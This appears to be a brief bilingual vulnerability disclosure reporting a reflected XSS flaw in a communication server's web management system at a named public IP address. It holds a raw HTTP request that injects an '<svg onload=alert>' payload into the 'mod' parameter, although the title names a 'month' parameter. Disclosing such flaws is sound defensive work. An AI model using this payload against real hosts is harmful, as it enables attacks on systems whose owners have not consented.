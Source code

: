 # xss vulnerability of the month parameter in the web management system of the communication server

### 企业官网(Enterprise official website)：

http://117.157.85.8:9092/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
GET /?callback=p5620&cat=javq6&categoryid=te9s2&emailto=ih705&from=s7mr2&immagine=q9kp4&jsonp=evxp0&key=jza06&keywords=rxvf3&lang=hqp59&list_type=twby9&mod=<svg onload=alert('xxxxxssss1')>//&name=cshm7&q=h9540&region=yecb3&terms=eo7f1&token=y9kz9&url=veet0&view=n6ff4 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip

```

![](15.png)

### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

